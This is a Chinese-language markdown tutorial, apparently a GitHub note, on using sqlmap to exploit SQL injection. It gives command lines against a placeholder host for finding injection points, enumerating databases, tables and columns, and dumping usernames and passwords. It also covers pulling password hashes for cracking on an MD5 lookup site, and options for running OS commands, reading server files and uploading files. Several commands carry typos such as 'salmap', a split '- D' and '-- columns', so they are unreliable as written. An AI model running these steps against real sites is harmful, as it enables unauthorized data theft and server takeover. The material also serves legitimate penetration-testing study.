



## 注入点判断
1. 判断是否存在注入点

```
sqlmap -u http://xxx
```


当参数有多个时，需要加双引号

```
sqlmap -u "http://xxx/?id=1&uid=2"
```


2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用

```
salmap -r txt文本
```


## 存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库

```
sqlmap -u http://xxx/ --dbs
```


2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库

那么现在查询dkeye数据库中有哪些表

```
sqlmap -u http://xxx/ -D dkeye --tables
```


3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表

使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```


4. 确定字段后，使用命令获取某个字段的内容

```
sqlmap.py -u http://xxx/ - D dkeye -T use＿info -C user,name,password --dump
```


## 获取与数据库用户相关的信息
1. 获取到数据库中的所有用户

```
salmap -u "http://xxx/" --users
```


使用该条语句的前提是，当前用户有权限读取包含所有用户的表的权限时。
2. 获取数据库中用户的密码

```
salmap -u "http://xxx/" --password
``` 
获取到的密码是经过md5加密的，可以在[md5解密网站](https://www.cmd5.com/)
3. 获取当前网脑数据库的名称
```


salmap -u "http://xxx/" --current-db

``` 
4. 获取当前网览数据库的用户名称
```


salmap -u "http://xxx/" --current-user

## 其他参数
1. --level 5：探测等级  

等级|使用
--|--
level 2| HTTP cookie 会加入
level 3| HTTP User-Agent/Referer会加入
level 5| 自动破解出cookie 、 XFF等头部注入。

2. --is-dba 当前用户是否为dba
3. --roles ：列出数据库管理员角色
4. --referer: HTTP Referer 头部伪造。   
指定该字段，会修改sqlmap发送的http报文中的refer字段
5. --sql-shell 运行自定义 SOL 语句

```
sqlmap.py -u http://xxx/ --sql-shell
```


会创建一个sql shell 交互界面，如下图


6. --os-cmd ，--as-shell ：运行任意操作系统命令
7. --file-read:：从数据库服务器申读取文件
8. --file-write --file-dest 上传文件到数据库服务器申
